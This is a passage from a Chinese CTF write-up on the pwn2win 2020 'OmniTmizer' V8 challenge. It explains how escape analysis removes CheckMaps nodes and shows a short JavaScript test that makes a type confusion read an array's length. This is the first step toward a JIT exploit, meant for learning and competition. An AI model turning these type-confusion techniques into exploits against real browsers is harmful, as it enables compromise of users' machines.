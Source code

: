 markForDeletion会把当前节点替换成Dead节点，在这里是等同于把CheckMaps节点删除了

CheckMaps节点一般是用来保证对象的Map不会发生变化，如果发生变化了就进行deopt，这里在EscapeAnalysis阶段把CheckMaps给删除了，那是不是说我们可能可以类型混淆了

![](./img/bqb1.webp)



一开始我试了个这个：

```javascript
function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    return a.x;
}

var bar = {
    x : 1,
    y : 2
};

var zoo = [1.1,2.2,3.3,4.4];

for(var i = 0;i < 60000;i++)
    foo(bar);
console.log(foo(zoo));
```

运行了下：

```cpp
PS D:\shared\pwn2win_2020\pwn-OmniTmizer\files\x64.release> .\d8.exe  .\test.js
4
```

我猜是zoo的length，因为从上面的LoadField[+12]，而Array对象的+12处偏移（开启了指针压缩）正是length，也就是4

再改改zoo的长度，看看输出：

```cpp
// var zoo = [1.1,2.2,3.3,4.4,5.5];

PS D:\shared\pwn2win_2020\pwn-OmniTmizer\files\x64.release> .\d8.exe  .\test.js
5
```

